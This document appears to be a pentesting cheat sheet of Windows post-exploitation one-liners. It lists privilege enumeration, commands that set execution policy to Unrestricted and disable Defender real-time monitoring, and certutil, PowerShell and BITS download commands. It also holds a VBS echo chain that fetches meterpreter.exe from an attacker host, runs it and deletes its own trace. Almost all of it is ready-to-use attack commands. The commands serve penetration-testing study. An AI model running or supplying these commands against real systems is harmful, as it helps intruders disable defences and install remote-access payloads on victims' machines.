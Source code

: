 # Enum
whoami /priv  

## Powershell
Get-ExecutionPolicy    
Set-ExecutionPolicy Unrestricted   
Set-MpPreference -DisableRealtimeMonitoring $true  


# File Transfer  
certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat   
  
## Powershell
powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out   
BITS (Background Intelligence Transfer Service)   
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://$IP:$PORT/file.bat -Destination C:\   

## VBS 
echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

 
  
# Resources
## Cheat Sheets
  https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts
  
  
